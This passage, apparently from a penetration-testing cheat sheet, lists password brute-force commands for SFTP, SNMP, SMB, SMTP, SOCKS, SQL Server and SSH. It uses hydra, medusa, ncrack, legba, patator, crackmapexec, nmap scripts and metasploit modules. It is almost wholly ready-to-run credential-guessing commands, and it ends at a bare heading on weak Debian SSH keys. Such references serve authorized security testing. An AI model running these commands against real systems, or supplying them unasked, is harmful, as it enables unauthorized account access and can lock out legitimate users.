 ```bash
legba sftp --username admin --password wordlists/passwords.txt --target localhost:22
# Try keys from a folder
legba sftp --username admin --password '@/some/path/*' --ssh-auth-mode key --target localhost:22
```
### SNMP
```bash
msf> use auxiliary/scanner/snmp/snmp_login
nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]
onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt <IP>
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp
```
### SMB
```bash
nmap --script smb-brute -p 445 <IP>
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
legba smb --target share.company.com --username admin --password data/passwords.txt [--smb-workgroup <SMB_WORKGROUP>] [--smb-share <SMB_SHARE>]
```
### SMTP
```bash
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL
legba smtp --username admin@example.com --password wordlists/passwords.txt --target localhost:25 [--smtp-mechanism <mech>]
```
### SOCKS
```bash
nmap  -vvv -sCV --script socks-brute --script-args userdb=users.txt,passdb=/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt,unpwndb.timelimit=30m -p 1080 <IP>
legba socks5 --target localhost:1080 --username admin --password data/passwords.txt
# With alternative address
legba socks5 --target localhost:1080 --username admin --password data/passwords.txt --socks5-address 'internal.company.com' --socks5-port 8080
```
### SQL Server
```bash
#Use the NetBIOS name of the machine as domain
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be careful with the number of passwords in the list, this could block accounts
msf> use auxiliary/scanner/mssql/mssql_login #Be careful, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT
```
### SSH
```bash
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
patator ssh_login host=<ip> port=22 user=root 0=/path/passwords.txt password=FILE0 -x ignore:mesg='Authentication failed'
legba ssh --username admin --password wordlists/passwords.txt --target localhost:22
# Try keys from a folder
legba ssh --username admin --password '@/some/path/*' --ssh-auth-mode key --target localhost:22
```
#### Chiavi SSH deboli / PRNG prevedibile di Debian
